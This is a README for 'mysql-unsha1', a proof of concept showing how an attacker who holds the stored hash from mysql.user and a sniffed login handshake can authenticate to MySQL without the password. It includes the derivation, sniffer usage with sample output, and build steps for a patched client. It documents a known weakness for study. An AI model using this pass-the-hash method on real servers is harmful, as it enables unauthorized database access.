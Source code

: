 mysql-unsha1
============

Authenticate against a MySQL server without knowing the cleartext password.

Abstract
--------

This PoC shows how it is possible to authenticate against a MySQL server under
certain circumstances without knowing the cleartext password when the [Secure
Password Authentication] authentication plugin (aka `mysql_native_password`) is
used.

Preconditions are:

- to obtain a read-only access to the `mysql.user` table in the target database
  in order to fetch the hashed password for a given user;

- to be able to intercept a successful authentication handshake performed by the
  aforementioned user (i.e., [authentication via SSL] would nullify this
  attempt).

**Note:** This is not a bug nor a vulnerability in MySQL (this is hardly an
*exploit* actually), it is just a direct consequence of how the authentication
protocol works. If an attacker is able to satisfy the above points then the
whole system is probably already compromised. Yet this exploit may offer an
alternative approach to obtain a proper authenticated access to a MySQL server.

MySQL server passwords
----------------------

By default, passwords are stored in the `mysql.user` table and are hashed using
the `PASSWORD` function which is just a two-stage SHA1 digest:

```
mysql> SELECT DISTINCT password FROM mysql.user WHERE user = 'root';
*2470C0C06DEE42FD1618BB99005ADCA2EC9D1E19

mysql> SELECT PASSWORD('password');
*2470C0C06DEE42FD1618BB99005ADCA2EC9D1E19

mysql> SELECT SHA1(UNHEX(SHA1('password')));
2470c0c06dee42fd1618bb99005adca2ec9d1e19
```

The handshake
-------------

After the TCP connection phase, initiated by the client, the MySQL
authentication [handshake] continues as follows (simplified):

1. the server sends a `Server Greeting` packet containing a *salt* (`s`);

2. the client replies with a `Login Request` packet containing the session
   password (`x`), computed as follows:

        x := SHA1(password) XOR SHA1(s + SHA1(SHA1(password)))

    where `password` is the cleartext password as provided by the user and `+`
    is a mere string concatenation operator;

3. the server can verify the *challenge* and authenticate the client if:

        SHA1(x XOR SHA1(s + SHA1(SHA1(password)))) = SHA1(SHA1(password))

The exploit
-----------

With enough information an attacker is able to obtain `SHA1(password)` and
therefore to solve the server challenge without the knowledge of the cleartext
password.

Let:

- `h` be the hashed password obtained from the `mysql.user` table (i.e.,
  `SHA1(SHA1(password))`);

- `s` and `x` be the salt and the session password respectively obtained from
   the intercepted handshake.

The first-stage SHA1 can be obtained as follows:

    SHA1(password) = x XOR SHA1(s + h)

Tools
-----

To ease the reproducibility of the exploit, this PoC provides two tools:

- a simple sniffer to extract and check the handshake information either live or
  offline from a PCAP file;

- a patch for MySQL client which allows to treat the prompted passwords as SHA1
  digests instead of cleartexts.

### The sniffer

To build `mysql-unsha1-sniff` just run `make` (or `make static` to produce a
statically linked executable). The Makefile will look for the `uthash.h` file in
this directory and will download it if not found.

Run `mysql-unsha1-sniff` without arguments to display the usage message.

In accordance with the previous example:

    sudo ./mysql-unsha1-sniff -i lo 127.0.0.1 3306 2470C0C06DEE42FD1618BB99005ADCA2EC9D1E19:root

Once a successful authentication handshake is captured the output will be like:

    [+] Input:
    [+] - username ........................ 'root'
    [+] - salt ............................ 3274756c42415d3429717e482a3776704d706b49
    [+] - client session password ......... 6d45a453b989ad0ff0c84daf623e9870f129c329
    [+] - SHA1(SHA1(password)) ............ 2470c0c06dee42fd1618bb99005adca2ec9d1e19
    [+] Output:
    [+] - SHA1(password) .................. 5baa61e4c9b93f3f0682250b6cf8331b7ee68fd8
    [+] Check:
    [+] - computed SHA1(SHA1(password)) ... 2470c0c06dee42fd1618bb99005adca2ec9d1e19
    [+] - authentication status ........... OK

If no account information are provided, the tool will only display the salt and
the session password.

### The patched MySQL client

Building the MySQL client may take some time and requires a certain amount of
free disk space:

1. download and extract the MySQL source code:

        wget https://github.com/mysql/mysql-server/archive/mysql-5.7.17.tar.gz
        tar xf mysql-5.7.17.tar.gz
        cd mysql-server-mysql-5.7.17

2. apply the patch:

        patch -p1 </path/to/mysql-server-unsha1.patch

3. build (without server) with:

        mkdir build
        cd build
        cmake -DDOWNLOAD_BOOST=1 -DWITH_BOOST=boost -DWITHOUT_SERVER:BOOL=ON ..
        make -j$(nproc)

4. the client executable will be created at `client/mysql`, optionally install
   it globally and delete the whole source code to save some space:

        sudo cp client/mysql /usr/local/bin/mysql-unsha1
        cd ../..
        rm -fr mysql-server-mysql-5.7.17

Use `mysql-unsha1` as the original MySQL client, just remember that the
`--password[=password], -p[password]` option now requires a 40-digit hexadecimal
SHA1 string.

In accordance with the previous example:

    mysql-unsha1 -h 127.0.0.1 -P 3306 -u root --password=5baa61e4c9b93f3f0682250b6cf8331b7ee68fd8

Where:

```
mysql> SELECT SHA1(UNHEX('5baa61e4c9b93f3f0682250b6cf8331b7ee68fd8'));
2470c0c06dee42fd1618bb99005adca2ec9d1e19
```

and `2470c0c06dee42fd1618bb99005adca2ec9d1e19` is the hashed password stored in
the `mysql.user` table.

[Secure Password Authentication]: https://dev.mysql.com/doc/internals/en/secure-password-authentication.html
[authentication via SSL]: https://dev.mysql.com/doc/internals/en/ssl.html
[handshake]: https://dev.mysql.com/doc/internals/en/plain-handshake.html
